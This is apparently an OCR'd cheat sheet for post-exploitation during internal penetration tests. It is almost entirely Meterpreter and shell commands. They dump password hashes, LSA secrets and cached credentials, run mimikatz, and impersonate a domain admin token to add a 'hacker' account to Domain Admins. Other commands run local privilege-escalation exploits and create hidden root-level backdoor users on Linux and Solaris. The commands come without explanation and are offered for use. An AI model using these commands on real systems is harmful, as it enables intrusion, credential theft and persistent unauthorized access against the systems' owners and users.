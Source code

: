 ```text

[+] Internal Infrastructure Testing - Post Exploitation

Meterpreter
meterpreter> sysinfo
meterpreter> getuid
meterpreter> ipconfig
meterpreter> run post/windows/gather/checkvm
meterpreter> run get_local_subnets

Privilege Escalation (If Required)
run post/windows/escalate/getsystem
use post/windows/escalate/droplnk
use exploit/windows/local/bypassuac
use exploit/windows/local/service_permissions
use exploit/windows/local/trusted_service_path
use exploit/windows/local/ppr_flatten_rec
use exploit/windows/local/ms_ndproxy
use exploit/windows/local/ask

meterpreter> run getcountermeasure
meterpreter> run winenum
meterpreter> run post/windows/gather/smart_hashdump
meterpreter> run post/windows/gather/credentials/sso
meterpreter> run post/windows/gather/cachedump
meterpreter> run post/windows/gather/lsa_secrets
meterpreter> run post/windows/gather/smart_hashdump
meterpreter> run post/windows/gather/enum_ad_computers
meterpreter> run post/windows/gather/win_privs
meterpreter > run post/windows/gather/enum_applications
meterpreter > run post/windows/gather/enum_logged_on_users
meterpreter > run post/windows/gather/usb_history
meterpreter > run post/windows/gather/enum_shares
meterpreter > run post/windows/gather/enum_snmp

meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token TVM\domainadmin
meterpreter > add_user hacker password1 -h 192.168.0.10
meterpreter > add_group_user "Domain Admins" hacker -h 192.168.0.10

meterpreter > load mimikatz
meterpreter > wdigest

Dump remote SAM:
meterpreter> run post/windows/gather/smart_hashdump

python-impact
psexec.py
secretsdump.py

Kitrap0d
Download vdmallowed.exe and vdmexploit.dll to victim
Run vdmallowed.exe to execute system shell
Add Linux User
/usr/sbin/useradd –g 0 –u 0 –o user
echo user:password | /usr/sbin/chpasswd

Solaris Commands
useradd -o user
passwd user
usermod -R root user

```